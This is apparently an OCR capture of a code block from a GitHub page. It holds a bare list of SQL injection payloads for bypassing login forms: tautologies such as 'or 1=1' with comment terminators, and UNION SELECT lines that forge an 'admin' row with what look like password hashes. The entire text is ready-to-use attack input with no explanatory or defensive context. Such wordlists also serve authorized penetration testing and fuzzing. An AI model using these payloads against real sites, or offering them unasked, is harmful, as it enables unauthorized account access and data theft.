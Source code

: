 ```
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
1234 " AND 1=0 UNION ALL SELECT "admin", "7110eda4d09e062aa5e4a390b0a572ac0d2c0220
==
=
'
' --
' #
' –
'--
'/*
'#
" --
" #
"/*
' and 1='1
' and a='a
or true
' or ''='
" or ""="
1′) and '1′='1–
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
' AND 1=0 UNION ALL SELECT '', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220
" AND 1=0 UNION ALL SELECT "", "7110eda4d09e062aa5e4a390b0a572ac0d2c0220
and 1=1
and 1=1–
' and 'one'='one
' and 'one'='one–
' group by password having 1=1--
' group by userid having 1=1--
' group by username having 1=1--
like '%'
or 0=0 --
or 0=0 #
or 0=0 –
' or         0=0 #
' or 0=0 --
' or 0=0 #
' or 0=0 –
" or 0=0 --
" or 0=0 #
" or 0=0 –
%' or '0'='0
or 1=1–
```